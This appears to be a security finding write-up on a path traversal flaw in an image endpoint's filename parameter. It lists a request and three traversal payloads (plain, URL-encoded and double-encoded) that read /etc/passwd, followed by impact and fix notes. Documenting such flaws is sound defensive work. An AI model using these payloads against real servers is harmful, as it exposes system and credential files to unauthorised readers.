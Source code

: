 
# PS-007 — Path Traversal: Read Arbitrary File
**Date / Analyst:** 2025-09-10 — Christopher Araque

## TL;DR
Parameter `file`/`path` is not sanitized; traversal sequences allow reading `/etc/passwd`.

## Endpoint
- GET /image?filename=../../../etc/passwd HTTP/2


## Evidence
- Request/Response: [ps-007-request.txt](../../evidence/ps-traversal/ps-007-request.txt)
- Screenshot: ![PS‑007](../../evidence/ps-traversal/ps-007-screenshot.png)

## Payloads (try in Repeater)
../../../../../../etc/passwd
..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

## Impact
Sensitive file disclosure (configs/keys/creds).

## Fix
Canonicalize path; enforce allow‑list; deny `..` / `%2e` / `%2f` and double‑encoded variants; use chroot/sandbox.
